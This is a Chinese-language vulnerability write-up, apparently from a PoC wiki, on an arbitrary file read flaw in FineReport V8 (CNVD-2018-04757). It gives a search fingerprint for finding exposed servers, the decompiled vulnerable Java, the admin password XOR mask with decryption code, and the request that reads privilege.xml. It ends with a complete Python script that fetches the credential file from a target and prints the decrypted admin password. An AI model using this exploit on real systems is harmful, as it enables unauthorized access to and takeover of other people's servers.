



# 帆软报表 V8 任意文件读取漏洞 CNVD-2018-04757

## 漏洞描述

FineReport报表软件是一款纯Java编写的，集数据展示(报表)和数据录入(表单)功能于一身的企业级web报表工具。

FineReport v8.0版本存在任意文件读取漏洞，攻击者可利用漏洞读取网站任意文件。

## 漏洞影响

```
FineReport < v8.0
```

## 网络测绘

```
body="isSupportForgetPwd"
```

## 漏洞复现

出现漏洞的文件为 fr-applet-8.0.jar

```java
package com.fr.chart.web;

import com.fr.base.FRContext;
import com.fr.general.IOUtils;
import com.fr.stable.CodeUtils;
import com.fr.web.core.ActionNoSessionCMD;
import com.fr.web.utils.WebUtils;
import java.io.InputStream;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class ChartGetFileContentAction extends ActionNoSessionCMD {
    public ChartGetFileContentAction() {
    }

    public void actionCMD(HttpServletRequest var1, HttpServletResponse var2, String var3) throws Exception {
        String var4 = CodeUtils.cjkDecode(WebUtils.getHTTPRequestParameter(var1, "resourcepath"));
        if (!WebUtils.invalidResourcePath(var4)) {
            InputStream var5 = FRContext.getCurrentEnv().readResource(var4);
            String var6 = IOUtils.inputStream2String(var5);
            var6 = var6.replace('\ufeff', ' ');
            WebUtils.printAsString(var2, var6);
        }
    }

    public String getCMD() {
        return "get_geo_json";
    }
}
```

使用request将文件名传入 调用cjkDecode函数解密文件名

使用invalidResourcePath函数校验文件是否存在

最后使用readResource函数读取文件传输到浏览器上 默认目录为resources

其中的privilege.xml里面存储了后台的用户名密码

```xml
<?xml version="1.0" encoding="UTF-8"?>
<PrivilegeManager xmlVersion="20170715" releaseVersion="8.0.0" fsSystemManagerPassSet="true" birthday="0" male="false">
<rootManagerName>
<![CDATA[admin]]></rootManagerName>
<rootManagerPassword>
<![CDATA[___00520017004e002b004100b7004200250023007f003d003d005400e4001c0057]]></rootManagerPassword>
<AP class="com.fr.privilege.providers.NoAuthenticationProvider"/>
<ForwardUrl>
<![CDATA[${servletURL}?op=fr_platform]]></ForwardUrl>
<PVFILTER class="com.fr.fs.privilege.auth.BasePrivilegeFilter"/>
</PrivilegeManager>
```

- 加密函数

```java
public static String passwordEncode(String var0) {
        StringBuilder var1 = new StringBuilder();
        var1.append("___");
        if (var0 == null) {
            return var1.toString();
        } else {
            int var2 = 0;

            for(int var3 = 0; var3 < var0.length(); ++var3) {
                if (var2 == PASSWORD_MASK_ARRAY.length) {
                    var2 = 0;
                }

                int var4 = var0.charAt(var3) ^ PASSWORD_MASK_ARRAY[var2];
                String var5 = Integer.toHexString(var4);
                int var6 = var5.length();

                for(int var7 = 0; var7 < 4 - var6; ++var7) {
                    var5 = "0" + var5;
                }

                var1.append(var5);
                ++var2;
            }

            return var1.toString();
        }
    }
```

- 解密函数

```java
public static String passwordDecode(String var0) {
        if (var0 != null && var0.startsWith("___")) {
            var0 = var0.substring(3);
            StringBuilder var1 = new StringBuilder();
            int var2 = 0;

            for(int var3 = 0; var3 <= var0.length() - 4; var3 += 4) {
                if (var2 == PASSWORD_MASK_ARRAY.length) {
                    var2 = 0;
                }

                String var4 = var0.substring(var3, var3 + 4);
                int var5 = Integer.parseInt(var4, 16) ^ PASSWORD_MASK_ARRAY[var2];
                var1.append((char)var5);
                ++var2;
            }

            var0 = var1.toString();
        }

        return var0;
    }
```

使用python写出的解密代码为

```python
cipher = 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx' #密文
PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23] #掩码
Password = ""
cipher = cipher[3:] #截断三位后
for i in range(int(len(cipher) / 4)):
    c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
    c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
    Password = Password + chr(c2)
print (Password)
```

这里使用上面讲述的原理进行复现,访问目标


路径分为两种

- /WebReport/ReportServer

- ReportServer

访问POC为,读取密码文件 privilege.xml

```plain
/WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml
```



使用解密脚本解密文件



得到密码，即可登陆后台系统，账户为 admin


## 漏洞POC

```python
import requests
import sys
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 帆软报表 v8.0                                              \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def decode_passwd(cipher):
    PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23]  # 掩码
    Password = ""
    cipher = cipher[3:]  # 截断三位后
    for i in range(int(len(cipher) / 4)):
        c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
        c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
        Password = Password + chr(c2)
    return Password

def POC_1(target_url):
    vuln_url_1 = target_url + '/WebReport/ReportServer'
    vuln_url_2 = target_url + '/ReportServer'
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response_1 = requests.get(url=vuln_url_1, timeout=5, verify=False, headers=headers)
        response_2 = requests.get(url=vuln_url_2, timeout=5, verify=False, headers=headers)
        if "部署页面" in response_1.text:
            print("\033[32m[o] 目标部署页面为: {} \033[0m".format(vuln_url_1))
            POC_2(vuln_url_1)
        elif "部署页面" in response_2.text:
            print("\033[32m[o] 目标部署页面为: {} \033[0m".format(vuln_url_2))
            POC_2(vuln_url_2)
        else:
            print("\033[31m[x] 目标漏洞无法利用 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 目标漏洞无法利用 {} \033[0m".format(e))
        sys.exit(0)

def POC_2(vuln_url_fileread):
    vuln_url = vuln_url_fileread + "?op=chart&cmd=get_geo_json&resourcepath=privilege.xml"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, verify=False, timeout=5)
        print("\033[32m[o] 正在访问: {} \033[0m".format(vuln_url))
        if "rootManagerPassword" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标存在漏洞,读取敏感文件 \n{} \033[0m".format(response.text))
            user_name = re.findall(r'<!\[CDATA\[(.*?)]]></rootManagerName>', response.text)
            cipher = re.findall(r'<!\[CDATA\[(.*?)]]></rootManagerPassword>', response.text)
            password = decode_passwd(cipher[0])
            print("\033[34m[o] 后台账户密码为:{} {} \033[0m".format(user_name[0], password))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```



